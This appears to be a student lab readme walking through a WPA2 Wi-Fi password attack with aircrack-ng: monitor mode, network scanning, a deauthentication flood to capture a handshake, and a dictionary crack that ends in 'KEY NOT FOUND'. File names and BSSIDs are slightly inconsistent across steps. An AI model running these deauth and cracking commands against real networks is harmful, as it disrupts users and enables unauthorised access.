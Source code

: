# Aircrack-ng

This is documentation for using aircrack-ng as tools
to crack password files.

### [starting airmon-ng]

This command is used for checking if the wifi card supports monitoring mode or not.

````
$ sudo airmon-ng start wlp1s0

PHY	Interface	Driver		Chipset

phy0	wlp1s0		ath9k		Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
````
    
### [airodump-ng ESSID]

````
$ sudo airodump-ng wlp1s0mon
````

````
 CH  8 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -57       87        4    0   1   65   WPA2 CCMP   PSK  hello-world
 xx:xx:xx:xx:xx:xx  -75      125     1073   46   5  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -83       29       10    0   6  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -88       35        0    0   1  130   WPA  CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -87       16        0    0   8  130   WPA2 CCMP   PSK  xxxxxxxxxx

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx  -33    0e- 0e     0       22                     
 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx   -1    1e- 0      0        1             
 
````

### [airodump-ng and aireplay-ng]

To get four way handshake, we need this two services to run together.
The tools will then connect each other to indicate the handshake has
been made or not. Fail to do this or quickly stopping the scan will
then lead to failure to do the handshake that we need. It'll also
generate .cap file that we can use to do password cracking with
aircrack-ng.
 
### [airodump-ng]

By using airodump-ng, we can see essid around us that can be pawned.
What we need in this session is [WPA handshake: D0:37:45:AB:CC:D3],
this will indicate that the wpa handshake is understood. It'll show
when we do the next step. `pwnd` will be the name of the file for 


````
$ sudo airodump-ng -c 4 --bssid MA:C0:AD:DR:ES:S0 --write pwnd wlp1s0mon
````

````
 CH  1 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm ][ WPA handshake: MA:C0:AD:DR:ES:S0
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -56  87      528      465    1   1   65   WPA2 CCMP   PSK  hello-world

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -36    1 - 1      0      331                                                               
 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -35    0e- 1     46      396  EAPOL     
````

### [aireplay-ng deauth]
Deauthenticating user that is connected to the network means
that they have to do the same login to then connect to the 
wifi that we're trying to brute-forcing. By doing this, it'll
then taking the information to do handshake with airdump-ng.

````
$ sudo aireplay-ng --deauth 50 -a MA:C0:AD:DR:ES:S0 wlp1s0mon
````

````
yyyy-mm-dd hh:mm:ss,1900-01-00 00:00:00,,MA:C0:AD:DR:ES:S0,-43,,0.000000,0.000000,0.000,0.000,Client
````


### [file list]

This is the list structure of the folder. there will be 6
files that will be indicated by the name
````
~/lab7 ls
.  ..  pwnd-01.cap  pwnd-01.csv  pwnd-01.kismet.csv  pwnd-01.kismet.netxml  pwnd-01.log.csv  readme.md
````


### [aircrack-ng command]
 
aircrack-ng will then do the cracking by using the wordlist that has
been indicated on the wordlist.txt, in this file, I'll be using
`common-wordlist.txt` as wordlist file.

````
$ sudo aircrack-ng pwnd-02.cap -w common-wordlist.txt 
````

as you can see on the results below, aircrack-ng says `KEY NOT FOUND`
this means that it can't pawn the network SSID because the wordlist
is not sufficient for this purpose.

````
                               Aircrack-ng 1.6 

      [00:00:00] 478/477 keys tested (2002.39 k/s) 

      Time left: --

                                KEY NOT FOUND


      Master Key     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
````

in the end, aircrack-ng can do its job if the wordlist is good enough
that it contains password for doing the cracking, otherwise it'll not
be useful. Brute-forcing is a good technique to use if you have enough
information of the target, otherwise, it'll fail.

